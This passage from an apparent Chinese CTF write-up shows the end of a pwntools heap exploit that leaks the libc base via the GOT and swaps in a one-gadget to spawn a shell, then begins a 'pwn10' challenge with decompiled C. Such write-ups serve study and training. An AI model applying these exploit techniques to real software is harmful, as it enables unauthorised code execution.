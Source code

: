 ```py

    Create(p64(proc_base+0x202068))
    Create('a'*4)
    Create('a'*4)

    Create(p64(proc_base+elf.got['free'])+p64(0x21))
    Show(0xffffffff-4)

    p.recvuntil('context: ')
    libc_base = u64(p.recv(6).ljust(8,'\x00')) - libc.symbols['free']
    log.success('libc base => ' + hex(libc_base))
    #get shell
    for i in range(4):
        Free(0)
    Create(p64(proc_base+0x202078))
    Create('a'*8)
    Create('a'*8)

    #Create(p64(libc_base+libc.symbols['system']))
    Create(p64(libc_base+gadgets[0]))
    gdb.attach(p)
    p.recvuntil('> ')
    p.sendline('5')
    p.interactive()

exp()
```

## pwn10

### 前言

这个题比较巧妙，程序的Add会添加一个node一个chunk，node里放chunk，分配大小固定为0x20。

```c
unsigned __int64 Add()
{
  int size; // ST0C_4
  signed int i; // [rsp+8h] [rbp-28h]
  _QWORD *node_chunk; // [rsp+10h] [rbp-20h]
  char *content_chunk; // [rsp+18h] [rbp-18h]
  char buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  for ( i = 0; i < 4; ++i )
  {
    if ( !qword_6020E0[i] )
    {
      node_chunk = malloc(0x20uLL);
      content_chunk = (char *)malloc(0x20uLL);
      if ( !node_chunk || !content_chunk )
      {
        puts("Error occured!!!");
        exit(2);
      }
      *node_chunk = content_chunk;
      puts("Give me your size : ");
      read(0, &buf, 8uLL);
      size = atoi(&buf);
      puts("Now give me your content");
      get_input(content_chunk, size);
      qword_6020E0[i] = (__int64)node_chunk;
```